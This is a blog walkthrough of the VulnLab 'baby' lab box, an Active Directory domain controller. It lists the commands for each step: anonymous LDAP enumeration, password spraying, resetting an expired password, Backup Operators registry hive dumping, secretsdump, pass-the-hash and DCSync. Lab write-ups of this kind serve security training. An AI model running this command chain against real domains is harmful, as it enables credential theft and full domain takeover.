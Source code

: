 ```yaml
---
layout: post
title:  "VulnLab | baby"
description: "Walkthrough of baby machine, an easy rated box from VulnLab"
date: "2024-11-15"
pin: true
image:
  path: ../assets/img/ctf/vulnlab/baby/baby1.png
  alt: "baby.vl"
category: "VulnLab"
tags: ["Active Directory", "ldap", "STATUS_PASSWORD_MUST_CHANGE" ,"Backup Operators"]
---
```


## Introduction
------------------------------------------------------------------------------------------
[baby](https://www.vulnlab.com/machines) is an easy rated windows box from vulnlab.The box is actually a domain controller running Active Directory Domain Services. The foothold consist of abusing the anonymous access to ldap service where we can read a default password in a user description. By spraying this password we can determine a user that haven't yet changed thier password. The privilege escalation part involve absing the rigths of Backup Operators group to get access to the machine account ntlm hash that can by used to perfom dcsync attack. 

------------------------------------------------------------------------------------------

## Enumeration
### All Open Ports
```bash
rustscan -a 10.10.116.81
```
![rustscan](./assets/img/ctf/vulnlab/baby/baby2.png)

### Services Scanning
```bash
nmap -p... -sC -sV -v -oN baby.full 10.10.116.81
```
```text
# Nmap 7.94SVN scan initiated Tue Nov 12 17:02:51 2024 as: nmap -p53,88,135,139,389,445,464,593,636,3389,5357,5985,9389,49664,49667,49669,49674,49675,51102,51118 -sC -sV -v -oN baby.full 10.10.116.81
Nmap scan report for 10.10.116.81
Host is up (0.049s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-12 16:02:58Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-11-12T16:04:26+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=BabyDC.baby.vl
| Issuer: commonName=BabyDC.baby.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-07-26T09:03:15
| Not valid after:  2025-01-25T09:03:15
| MD5:   a63f:e0e6:9c19:ba19:0f14:2198:bd20:3eb3
|_SHA-1: 79c6:f752:73d0:6818:241e:6087:88b0:2a7f:b0bf:ec7f
| rdp-ntlm-info: 
|   Target_Name: BABY
|   NetBIOS_Domain_Name: BABY
|   NetBIOS_Computer_Name: BABYDC
|   DNS_Domain_Name: baby.vl
|   DNS_Computer_Name: BabyDC.baby.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-11-12T16:03:47+00:00
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
51102/tcp open  msrpc         Microsoft Windows RPC
51118/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-11-12T16:03:48
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 12 17:04:28 2024 -- 1 IP address (1 host up) scanned in 96.54 seconds
```
### Hostname
```bash
echo '10.10.116.81  BabyDC.baby.vl  baby.vl'  >> /etc/hosts
```

## Foothold
The ldap service allows anonymous access. We can use ldapsearch tool to request informations about users, groups and other active directory objects.
```bash
ldapsearch -H ldap://baby.vl -x -b "DC=baby,DC=vl" '(objectclass=User)' "sAMAccountName" | grep sAMAccountName
```
![Users](./assets/img/ctf/vulnlab/baby/baby3.png)
```bash
ldapsearch -H ldap://baby.vl -x -b "DC=baby,DC=vl" '(objectclass=User)' | grep description -C 5
```
![users and description](./assets/img/ctf/vulnlab/baby/baby4.png)
```bash
ldapsearch -H ldap://baby.vl -x -b "DC=baby,DC=vl" '(objectclass=Group)' | grep 'member:'
```
![Groups](./assets/img/ctf/vulnlab/baby/baby5.png)
```text
Jacqueline.Barnett
Ashley.Webb
Hugh.George
Leonard.Dyer
Connor.Wilkinson
Joseph.Hughes
Kerry.Wilson
Teresa.Bell
Caroline.Robinson
Ivan.Walker
```
From the previous ldap queries we manage to read a default password in  Teresa.Bell description and create a list of valid users. Next let's try to spray that password...
```bash
nxc smb baby.vl -u users.txt -p 'BabyS********'
```
![password spaying](./assets/img/ctf/vulnlab/baby/baby6.png)

The spraying tells us that our password is valid for user Caroline.Robinson (who is still using the default password). The password has expired so we need to set a new password. This can be done as following: 
```sh
smbpasswd -r 10.10.116.81 -U Caroline.Robinson
```
![caroline passwd change](./assets/img/ctf/vulnlab/baby/baby7.png)

```text
user: Caroline.Robinson
pass: NewP@ssw0rd
```
With the  new password, we can try to see what services we can access as Caroline.Robinson. We can we can PSRemote to the DC and we have RW on the C$ share.
```bash
nxc smb baby.vl -u Caroline.Robinson -p NewP@ssw0rd
nxc winrm baby.vl -u Caroline.Robinson -p NewP@ssw0rd
nxc smb baby.vl -u Caroline.Robinson -p NewP@ssw0rd --shares
```
![winrm](./assets/img/ctf/vulnlab/baby/baby8.png)
![smb shares](./assets/img/ctf/vulnlab/baby/baby9.png)

```bash
ldapdomaindump  'ldap://baby.vl' -u 'baby.vl\Caroline.Robinson' -p NewP@ssw0rd -o lootme
```
![ldap dom dump](./assets/img/ctf/vulnlab/baby/baby10.png)
```bash
evil-winrm -i baby.vl -u Caroline.Robinson -p NewP@ssw0rd
```
![evil-winrm](./assets/img/ctf/vulnlab/baby/baby11.png)


## Privilege Escalation
Our current user Caroline.Robinson is member of Backup Operators Group...
```powershell
net user Caroline.Robinson
```
![net user](./assets/img/ctf/vulnlab/baby/baby12.png)

```bash
reg.py baby.vl/Caroline.Robinson:'NewP@ssw0rd'@10.10.116.81  backup -o '\\10.10.116.81\C$'
```
![registry](./assets/img/ctf/vulnlab/baby/baby13.png)

```bash
secretsdump.py -sam SAM.save -system SYSTEM.save -security SECURITY.save LOCAL
```
![local secretsdump](./assets/img/ctf/vulnlab/baby/baby14.png)

```bash
nxc smb baby.vl -u Administrator -H 8d992faed38128ae85e95f********
```
![local secretsdump](./assets/img/ctf/vulnlab/baby/baby15.png)

```sh
secretsdump.py -hashes 'aad3b435b51404eeaad3b435b51404ee':'03f31d66e3ee8be794059*********' 'baby.vl'/'BabyDC$'@'10.10.116.81'
```
![local secretsdump](./assets/img/ctf/vulnlab/baby/baby16.png)

```bash
nxc smb baby.vl -u Administrator -H ee4457ae59f1e3fbd76*******
```
![local secretsdump](./assets/img/ctf/vulnlab/baby/baby17.png)

```bash
evil-winrm -i baby.vl -u Administrator -H ee4457ae59f1e3fbd76*******
```
![local secretsdump](./assets/img/ctf/vulnlab/baby/baby18.png)

## Kill Chain Summary
1. Abuse ldap anonymous access to enumerate users, groups,...etc
2. Password spraying
3. Backup Operators Group rights abuse
4. Dcsync attack

## References
[reseting expired passwords](https://www.n00py.io/2021/09/resetting-expired-passwords-remotely/)